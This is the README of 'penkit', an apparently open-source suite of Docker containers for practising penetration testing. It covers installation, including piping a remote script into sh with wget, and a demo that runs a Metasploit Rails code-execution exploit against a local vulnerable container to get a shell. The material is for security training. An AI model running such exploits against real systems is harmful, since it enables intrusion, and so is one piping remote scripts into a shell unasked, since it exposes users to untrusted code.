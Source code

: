 # penkit

[![Gem Version](https://badge.fury.io/rb/penkit.svg)](https://badge.fury.io/rb/penkit)
[![build status](https://gitlab.com/penkit/penkit/badges/master/build.svg)](https://gitlab.com/penkit/penkit/commits/master)
[![coverage report](https://gitlab.com/penkit/penkit/badges/master/coverage.svg)](https://gitlab.com/penkit/penkit/commits/master)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](http://penkit.io/legal/LICENSE.txt)

Penkit is a software suite designed to hone your pentesting skills. Using the power and flexibility of docker, we are able to build controlled, isolated environments for reproducing virtually any software vulnerability out there. Penkit has two major components: our strictly maintained image catalog and our full featured CLI application.

## Getting started

Penkit has only a couple of requirements and three different install options.

### Prerequisites

- Linux or OSX (x86-64)
- Docker 1.13+
- Ruby and rubygems (optional)

### Installation

#### Option 1: Quick install

Try our easy install script. ([view source](https://get.penkit.io))

```bash
$ wget -qO- https://get.penkit.io | sh
```

#### Option 2: Ruby gem

You can install the penkit gem directly from [rubygems.org](https://rubygems.org/gems/penkit):

```bash
$ gem install penkit
$ penkit help
```

#### Option 3: Docker image

If you don't have ruby, then you can use the penkit Docker image:

```bash
$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock penkit/cli help
```

#### Option 4: Bash wrapper

If docker commands are a hassle to you, just download our bash wrapper:

```bash
$ wget -O /usr/local/bin/penkit https://gitlab.com/penkit/penkit/raw/master/scripts/penkit
$ chmod +x /usr/local/bin/penkit
$ penkit  help
```

### Usage

Take penkit for a spin with this quick rails exploit:

#### 1. Start a vulnerable rails container
```bash
$ penkit start rails:3.2.9
```

#### 2. Run exploit against the container using metasploit
```bash
$ penkit metasploit -x " \
  use exploit/multi/http/rails_xml_yaml_code_exec; \
  set RHOST rails; \
  set RPORT 8080; \
  run"
```

#### 3. Run shell commands on the compromised rails container
```bash
whoami
pwd
ls
```

#### 4. Stop the remote shell and metasploit
```bash
^ctrl-C
exit
```

#### 5. Clean up our penkit containers
```bash
$ penkit rm
```

#### 6. Learn more with integrated help
```bash
$ penkit help
```

## Contributing

Penkit is open-source, and we welcome contributions!

- [Open an issue](https://gitlab.com/penkit/penkit/issues)
- [Create a fork](https://gitlab.com/penkit/penkit/forks/new)

### Development

Local development requires ruby and bundler:

```bash
$ git clone git@gitlab.com:your_user/penkit penkit
$ cd penkit
$ bundle install
$ bundle exec penkit help
```

### Testing

Most of the tests for the Penkit CLI are ran through rspec:

```bash
$ bundle exec rspec
```

## License

Penkit is released under the [MIT License](LICENSE).
